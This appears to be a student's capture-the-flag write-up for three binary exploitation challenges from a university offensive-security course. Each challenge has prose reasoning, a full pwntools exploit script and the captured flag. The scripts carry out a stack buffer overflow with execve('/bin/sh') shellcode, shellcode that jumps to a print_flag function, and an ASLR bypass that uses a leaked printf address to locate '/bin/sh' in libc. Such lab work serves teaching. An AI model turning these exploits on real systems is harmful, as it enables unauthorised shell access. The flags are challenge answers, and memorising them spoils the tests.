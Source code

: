 ### 🟢 old school (50)
**Solve:**
Complete initial recon on the binary using `readelf -h old_school` and Binary Ninja. This binary is a no-PIE, so all addresses shown on Binary Ninja are absolute, not offsets. Scoping out the program flow on Binja, the program prints out the runtime address of the buffer which lives on the stack, then uses gets() to receive user input. Our strategy is to inject custom assembly code in raw bytes, and direct the program to where we injected it so our assembly code runs to make an execve() call to spawn a shell. Where we inject our assembly is going to be where the buffer lives. This is why we will attempt to clobber the return address such that it equals the address of the buffer. 

Our goal is to spawn a shell, which we'll do by calling execve(). Let's construct the assembly code to run execve. The first argument needs to be a pointer to the string "/bin/sh". Heading over to .rodata (read only data) section on Binja, we see there's an interesting variable called just_a_string at 0x402008. Use gdb on the binary and run `x/s 0x402008`, and we see that this variable contains "/bin/sh". We can simply put this address into $rdi for the first argument to execve(). Next up, for execve's second and third arguments, we can simply assign them the value 0. That's equivalent to giving them pointers to a place in memory containing the null byte. We don't need the second argument (argv, or command-line arguments) because we're not passing anything from the command line to execve, and we don't need the third argument to specify environment variables because our program "/bin/sh" does not rely on any environment variables. Lastly, we need to set $rax to 0x3b, which is the system call number for execve. After all registers are set, we simply have to make the syscall. 

	(An alternative way to deal with the second and third args to execve here is to find somewhere in the binary that contains the null byte, for example 0x402004, and put the address into $rsi and $rdx. It would work as well)

For the actual payload to send, we are first sending the raw bytes of the assembly code we designed. Next, we need to send filler bytes up until the return address. Looking at Binja's stack view, we find that the buffer is 0x38 bytes long. The amount of filler we need is the difference between 0x38 and the length (in bytes) of our assembly code. Lastly, we'd send 8 bytes of the address of the buffer that is printed out for us as our desired return address. If successful, the moment the return address gets popped off the stack and put into $rip, our assembly code will run and a shell will be spawned.

A Python script using pwntools, asm (to convert assembly into bytes) and p64 (to pack numbers into 8 bytes, little-endian) is written to solve this challenge. See below.


**Solver's Script:**
```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-f", "-h"]
context.arch = "amd64"
  
p = remote("offsec-chalbroker.osiris.cyber.nyu.edu",1290)
p.recvuntil("23): ".encode())
p.sendline(b"hw3172")
p.recvuntil(b"at: ")

# this program leaks the buf addr - use this to clobber return addr bc it's where we inject our assembly code
buf_addr = int(p.recvuntil(b"\n", drop=True), 16) # drop=True to exclude the \n char

p.recvuntil(b">")

# assembly code: prepare registers for execve() syscall
# set rsi and rdx to 0 to indicate not passing in arrays
s_instr = asm('''
mov rdi, 0x402008
mov rax, 0x3b
mov rsi, 0
mov rdx, 0
syscall
''')

amount_of_filler = 0x38 - len(s_instr) # buf is 0x38 bytes; fill in gap between our assembly and the return addr
filler = b"A" * amount_of_filler

p.sendline(s_instr + filler + p64(buf_addr))
p.interactive()
```

**Flag:**
flag{th4t_buff3r_w4s_th3_p3rf3ct_pl4c3_t0_wr1t3_y0ur_sh3llc0de!_4cb1c2250ce55e82}


### 🟢 assembly (50)
Solve:
Use `readelf` to find that this binary is no-PIE. All addresses seen on Binja are absolute. 
Head to Binja to scope out the program. This program accepts user input into a buffer that is writeable and executable. Besides main(), there's a function called print_flag(). As long as validate(buffer, number of bytes read) does not equal zero, the code at the buffer will be called. This happens as long as no 0x62-0x69-0x6e nor 0x73-0x79-0x73 byte sequence appears anywhere in the buffer. 

Our strategy is to enter assembly code that moves the address of print_flag into a register, say, rax, and run call rax. Write a pwntools script to do so. At first it won't work. Use gdb to step through the code where it crashes. Inspect the rsp register to realize that it's not 16-bit aligned. We add one more line to the assembly code, which subtracts 8 from rsp to align it, such that `call` can execute. Print out the raw bytes of our assembly to ensure it does not contain the two illegal byte sequences, which prevents buffer from being run. 

Solver's Script:
```python
from pwn import *
context.log_level="DEBUG"
context.terminal = ["tmux","splitw","-f","-h"]
context.arch="amd64"  # specify 64-bit architecture so asm does not throw error of "ambiguous operand" when assembling

p = remote("offsec-chalbroker.osiris.cyber.nyu.edu",1294)
p.recvuntil("23): ".encode())
p.sendline(b"hw3172")
p.recvuntil(b'flag!\n')

# Assembly shellcode**
a = asm('''
mov rax, 0x40143f**
sub rsp, 8
call rax
''')

p.sendline(a)
p.interactive()
```

flag{l0w_l3v3l_pr0gr4mm1ng_l1k3_4_pr0!_957bbfe3b20f6d11}




### 🟢 back to glibc (150)
Solve:
This is a PIE file, which means all addresses are just offsets. Actual addresses are resolved at runtime. Run the program once and look through main() on Binja. It leaks for us the absolute address of printf, a glibc function. From the libc.so.6 file (our local version when testing locally; actual libc.so.6 when exploiting remote server), we can grep for printf and find its offset: `readelf -Ws back_to_glibc | grep printf`. Then, using the equation glibc_base = printf absolute addr - printf offset, we can calculate the base address of glibc, or where glibc is loaded in at runtime. Note that all addresses inside libc.so.6 are offsets relative to this glibc base address. The glibc base address gets randomized every time due to ASLR, even if the binary is no-PIE. 

Our goal is to run execve to pop a shell. That requires us to put a pointer to the string "/bin/sh" into $rdi. Where can the string be found? Answer is within the libc.so.6, as the shared libraries contains this string in order to make sys calls. 

Run `strings -a -t x libc.so.6 | grep "/bin/sh"` to find the offset of "/bin/sh" relative to glibc's base address. Use the equation binsh absolute = binsh offset + glibc base which we calculated previously to calculate the actual address of the string. 

Once found, we are ready to construct the assembly code payload. Use a format string in python to move the "/bin/sh" pointer we calculated into $rdi. Set $rsi and $rdx to zero as we don't care about input arguments nor environment variables. Move 0x3b into $rax for the execve() syscall number. Finally, make the syscall. 

Write a python script to receive the leaked printf address and send our assembly payload.

**Solver's script:**
```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-f", "-h"]
context.arch = "amd64"

p = gdb.debug("./back_to_glibc", '''
b main
b *(main+357)
continue
''') # main+357 is where our assembly code gets called

# Note: when testing locally, use your local computer's own libc.so.6 for offsets
# because local programs will use that
# after verifying your exploit script works,
# change offsets to the provided libc.so.6 (i.e. the version that lives on remote server)

#printf_offset_local = 0x600f0
p.recvuntil(b"one: ")
printf_abs = p.recvuntil(b"\n", drop=True)
printf_abs = u64(printf_abs) # verified on gdb
printf_offset = 0x606f0 # from readelf grep on libc.so.6
glibc_base = printf_abs - printf_offset

# binsh_offset = 0x1d8670 - old calc; wrong
# use: strings -a -t x libc.so.6 | grep "/bin/sh"
binsh_offset = 0x1d8678
binsh_abs = binsh_offset + glibc_base
hex_binsh_abs = hex(binsh_abs)

# assemble our execve shellcode
# verified assembly runs properly on gdb, all except rdi and rax

a = asm('''
mov rdi, {}
mov rsi, 0
mov rdx, 0
mov rax, 0x3b
sub rsp, 8
syscall
'''.format(hex_binsh_abs))

p.sendline(a)
p.interactive()
```


**flag{y0u_r3_gonna_be_us1ng_gl1bc_4_l0t!_f35a4ba2e863a22d}**






